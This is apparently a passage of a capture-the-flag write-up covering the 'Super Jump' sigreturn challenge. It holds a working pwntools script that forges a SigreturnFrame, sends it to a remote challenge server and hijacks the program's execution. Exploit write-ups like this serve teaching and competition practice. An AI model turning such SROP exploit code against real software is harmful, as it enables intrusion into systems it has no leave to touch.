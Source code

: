**ACS_IXIA_CTF{exploit_heap_you_must_not}**

<a name="superjump"></a>
## Super Jump (125) - Misc

Sigreturn challenge. This is the decompiled main function:

![](/assets/images/posts/2022-04-17-18-48-15.png)

Thankfully we can SigreturnFrame from pwntools in order to automatically generate the memory structure required.

We'll jump to the address given to us by the binary.

In order to get the flag, we must set some registers as so:

![](/assets/images/posts/2022-04-17-19-02-05.png)

```py
from pwn import *
import struct

context.clear()
context.arch = "amd64"

# sh = process('super-jump/super_jump')
sh = remote('141.85.224.115', 31737)
addr = int(sh.recvuntil(b'?').split(b' ')[-1][2:-1],16)

print(hex(addr))

frame = SigreturnFrame()
frame.rax = 0x11111111
frame.rbx = 0x22222222
frame.rcx = 0x33333333
frame.rdx = 0x44444444
frame.r8 =  0x55555555
frame.r9 =  0x66666666
frame.r10 = 0x77777777
frame.r11 = 0x88888888
frame.r12 = 0x99999999
frame.r13 = 0xaaaaaaaa
frame.r14 = 0xbbbbbbbb
frame.r15 = 0xcccccccc
frame.rdi = 0xdddddddd
frame.rsi = 0xeeeeeeee
frame.rbp = 0xffffffff
frame.rip = addr
frame.rsp = addr + 4096

f = bytes(frame)

sh.sendline(b'0')

for i in range(0,len(f),8):
    i = struct.unpack('<Q', f[i:i+8])[0]
    sh.sendline(str(i).encode())

sh.interactive()
```
